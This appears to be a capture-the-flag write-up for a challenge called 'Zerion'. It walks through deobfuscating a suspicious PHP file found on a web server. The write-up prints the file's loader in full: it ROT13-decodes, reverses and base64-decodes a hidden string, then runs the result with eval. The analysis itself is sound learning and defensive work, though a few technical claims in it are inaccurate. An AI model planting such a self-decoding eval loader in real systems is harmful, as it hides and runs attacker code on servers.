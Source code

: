 # Zerion

## We observed some odd network traffic, and found this file on our web server... can you find the strange domains that our systems are reaching out to?

A file is attached to the challenge.

---


First download the file

What is this file ? I opened with VSCode and fount out it's a PHP file with a very long string after the code (let's name it `VeryLongString` for readability).


![Alt text](image.png)


VeryLongString start with "==", Base64 always ends with that so we have a small hint that the long string is probably reversed. We need to confirm that but let's keep it for later.


### Very basic code analysis

This isn't very readable but it's probably made on purpose to scare us, let's beautify it a little.

```php

<?php 

$L66Rgr=explode(base64_decode("Pz4="),file_get_contents(__FILE__)); 

$L6CRgr=array(base64_decode("L3gvaQ=="),base64_decode("eA=="),base64_decode(strrev(str_rot13($L66Rgr[1]))));

$L7CRgr = "d6d666e70e43a3aeaec1be01341d9f9d";

preg_replace($L6CRgr[0],serialize(eval($L6CRgr[2])),$L6CRgr[1]);exit();

?>


```



First line is a variable. Reading the php doc about `explode()` I know that it returns an array. In this case it's a 2D array containing a decoded Base64 String on first position and VeryLongString on the second position.

So basically, the first line is: 

```php 
$L66Rgr=explode(['<?', 'VeryLongString'])
```

Second line is another variable. It is also a 2D array containing 3 Strings. The 2 first ones are also decoded Base64 but the last one is very interesting.

Basically the 3rd String is a succession of manipulations on the VeryLongString that is contained in the first variable.

1. First it applies `str_rot13()` which is a Caesar cipher, you just replace each letter by the one 13 steps after it in the alphabet. (example: a=n)
2. After that it applies `strrev()` which is just reverses the String (confirmation of the hint found earlier)
3. Finally it decodes the base64

Let's do it!


After doing all the operations on `VeryLongString` we find out it's another php file. 

Doing a basic research (CTRL+F) in the file we can find the flag! 


![Alt text](image-1.png)